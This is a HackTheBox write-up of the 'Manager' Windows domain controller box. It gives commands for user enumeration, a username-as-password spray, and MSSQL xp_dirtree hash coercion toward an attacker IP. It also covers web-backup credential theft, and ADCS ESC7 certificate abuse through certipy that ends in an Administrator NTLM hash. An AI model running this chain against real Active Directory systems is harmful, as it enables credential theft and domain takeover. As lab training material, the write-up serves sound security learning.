# Manager — HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Manager (HackTheBox)
**Author:** dsec
**Date:** 2025-04-13

---

## TL;DR

### RID brute-force enumerated users. Username-as-password spray found `Operator:operator` for MSSQL. xp_dirtree listed web backup containing `raven`'s creds. ADCS ESC7 (ManageCA rights) abused to issue a certificate as Administrator via SubCA template for pass-the-hash.
---
## Target info

- Host: `10.129.42.194`
- Domain: `manager.htb` / `dc01.manager.htb`
- Services discovered: `53`, `80`, `88`, `135`, `139`, `389`, `445`, `1433`, `3268`, `5985` and more
---
## Enumeration

```bash
nmap -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,49667,49693,49694,49732,54499,59175,61113 -sCV 10.129.42.194 -vvv
```








```bash
enum4linux -a -u "guest" -p "" 10.129.42.194
```



RID brute-force to enumerate users:

```bash
lookupsid.py manager.htb/anonymous@10.129.42.194 -no-pass
```



Password spray with username-as-password:

```bash
nxc smb 10.129.42.194 -u users.txt -p users_lowercase.txt --no-bruteforce --continue-on-success
```



Found `Operator:operator` -- auths for SMB, LDAP, and MSSQL (not WinRM).

---
## Foothold

Connected to MSSQL:

```bash
mssqlclient.py -windows-auth manager.htb/Operator:'operator'@10.129.42.194
```

Tried to coerce a hash with xp_dirtree but couldn't crack it:

```sql
EXEC xp_dirtree '\\10.10.14.30\test', 1, 1
```



Used xp_dirtree to enumerate the web root instead:

```sql
xp_dirtree C:\inetpub\wwwroot
```



Downloaded the backup:

```bash
wget http://manager.htb/website-backup-27-07-23-old.zip
unzip website-backup-27-07-23-old.zip -d webbackup/
```



Found creds: `raven:R4v3nBe5tD3veloP3r!123`

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```



---
## Privesc

Ran certipy to find ADCS vulnerabilities:

```bash
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```



ESC7 -- Raven has ManageCA rights on `manager-DC01-CA`.

Added Raven as an officer:

```bash
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



Verified the change:



Requested a SubCA certificate as Administrator (intentionally fails but saves the private key):

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



Issued the failed request:

```bash
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



Retrieved the certificate:

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```



Authenticated with the certificate:

```bash
certipy auth -pfx administrator.pfx -dc-ip manager.htb
```



Got Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`

---
## Lessons & takeaways

- Username-as-password sprays are surprisingly effective in AD environments
- xp_dirtree in MSSQL can list file system contents even when you can't execute commands
- Web backups left in the web root are a common source of credential leaks
- ADCS ESC7 (ManageCA) allows issuing certificates through the SubCA template -- officer groups reset periodically so speed matters
---
